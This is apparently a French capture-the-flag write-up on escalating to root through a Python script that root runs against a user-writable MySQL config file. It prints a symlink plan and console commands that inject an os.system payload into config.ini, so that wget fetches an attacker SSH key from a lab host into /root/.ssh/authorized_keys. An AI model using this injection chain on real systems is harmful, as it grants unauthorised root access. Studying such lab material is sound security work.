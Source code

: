 ### Dix guys

Marche arrière pour revenir sur le script Python. On sait qu'il est lancé comme ça :

`python3 /opt/query.py /home/darksoul/config.ini > /home/darksoul/darkshopcount`

Les deux fichiers utilisés en argument sont sous notre contrôle : ils appartiennent à root mais sont dans un dossier appartenant à notre utilisateur courant. On ne peut pas supprimer les fichiers, mais on peut les déplacer (une bizarrerie de Linux).

```
-rw-r--r-- 1 root     root      114 Apr  2 04:03 config.ini
-rw-r--r-- 1 root     root       31 May  7 10:05 darkshopcount
```

Si on peut déplacer le fichier (le renommer) alors, on peut placer un fichier avec le même nom à la place.

Idée d'exploitation : remplacer `darkshopcount` par un lien symbolique pointant vers `/etc/crontab`, `/root/.ss/authorized_keys` ou `/etc/passwd` puis faire en sorte que le script génère l'output de notre choix.

L'exploitation semble difficile car les appels à `print` sont difficilement contrôlables :

```python
    try:
        conn = mysql.connector.connect(read_default_file=cnf)
        cursor = conn.cursor()

        query = 'SELECT COUNT(*) FROM users'
        cursor.execute(query)
        results = cursor.fetchall()
        print(f"users count:{results[0][0]}")

        query = 'SELECT COUNT(*) FROM products'
        cursor.execute(query)
        results = cursor.fetchall()
        print(f"products count:{results[0][0]}")
    except mysql.connector.Error as err:
        print(f"db connect error: {err}")
```

Les deux premiers `print` ne peuvent afficher que des données numériques et il n'y a aucun moyen de réécrire la fonction `COUNT` de MySQL.

Le dernier `print` nécessite de provoquer une exception. J'ai essayé d'injecter des données dans le `config.ini` mais il n'y a aucun moyen d'intégrer un retour à la ligne.

L'article Medium vu précédemment mentionnait ce CVE :

[CVE-2025-21548(mysql客户端RCE)](https://github.com/gelusus/wxvl/blob/main/doc/2025-03/CVE-2025-21548(mysql%E5%AE%A2%E6%88%B7%E7%AB%AFRCE).md)

La vulnérabilité exploite un stupide `eval` dans le connecteur Python. On peut l'exploiter ainsi :

```console
darksoul@disguise:~$ cp config.ini new_config.ini
darksoul@disguise:~$ echo "allow_local_infile=__import__('os').system('mkdir /root/.ssh;wget http://192.168.56.1:8000/hacker.pub -O /root/.ssh/authorized_keys')" >> new_config.ini 
darksoul@disguise:~$ mv config.ini old_config.ini
darksoul@disguise:~$ mv new_config.ini config.ini
```
